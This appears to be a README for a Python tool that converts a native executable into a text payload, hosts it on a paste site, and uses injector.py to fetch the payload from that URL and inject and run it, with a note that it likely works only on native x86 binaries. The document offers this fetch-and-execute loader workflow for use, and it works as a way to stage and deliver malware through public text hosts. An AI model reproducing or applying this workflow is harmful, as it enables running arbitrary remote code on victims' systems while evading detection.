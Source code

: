 ![logo](logo.png)

Create a payload:
```
python3 payload.py <input.exe> <output.txt>
```
Upload the payload anywhere that will host a text file. 

Inject and execute the payload:
```
python3 injector.py <https://paste-site.wherever>
```
**Notes:** One limitation of this technique is that it probably only works with executables compiled to native x86 (e.g., by using ```#pragma unmanaged``` when compiling from Visual C++). I doubt it will work with .NET assemblies, but I have not by any means tested this hypothesis extensively, and I'd certainly be interested to hear about any interesting results.  
